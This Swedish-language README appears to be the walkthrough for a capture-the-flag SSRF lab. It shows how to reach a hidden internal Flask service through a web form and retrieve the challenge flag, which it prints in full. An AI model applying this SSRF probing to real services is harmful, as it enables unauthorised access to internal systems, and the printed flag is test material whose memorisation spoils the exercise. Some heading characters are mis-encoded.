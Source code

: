 ## ᾝ9‍♂️ The Oracle of Thebes – SSRF Challenge

### 🌟 Mål:
Utnyttja en SSRF-sårbarhet för att komma åt en intern Flask-tjänst och få ut en flagga.

---

### ⭐ Steg-för-steg

#### ᾟ1 Steg 1 – Starta miljön
```bash
docker-compose up --build
```

#### 🌐 Steg 2 – Besök oraklet
Gå till:
```
http://localhost:8080
```

#### ⚖️ Steg 3 – Testa första URL:en
Fyll i i formuläret:
```
http://127.0.0.1:6008/
```
Du får svaret från den interna tjänsten ("Inner Sanctum")

#### 🤮 Steg 4 – Hitta hintar
Testa:
```
http://127.0.0.1:6008/robots.txt
```
Du ser: `Disallow: /admin/`

#### 🕵️‍♂️ Steg 5 – Utforska admin
Testa:
```
http://127.0.0.1:6008/admin/
```
Du får en ledtråd om gamla filer...

#### 🗂️ Steg 6 – Gå vidare till flaggarkivet
Testa:
```
http://127.0.0.1:6008/admin/flag/
```
En hint säger att en fil finns kvar.

#### 🔮 Steg 7 – Testa oracle-flag.txt
Prova:
```
http://127.0.0.1:6008/admin/flag/oracle-flag.txt
```

#### 🏆 Steg 8 – Få flaggan!
```
o24{Or4cle_gr4ts_fl46}
```

---

### 🔹 Tips:

- Du kan också testa med curl eller Burp:
```bash
curl http://127.0.0.1:6008/admin/flag/oracle-flag.txt
```

- Eller använda debug mode i orakelgränssnittet:
```
http://localhost:8080/?debug=1
```

---

### 📊 Struktur
```bash
SSRF/
├── docker-compose.yml
├── internal-api/        # SSRF-mål
└── oracle-web/          # Frontend (SSRF-ingång)
```

---

### 🌐 Flagga
```
o24{Or4cle_gr4ts_fl46}
```


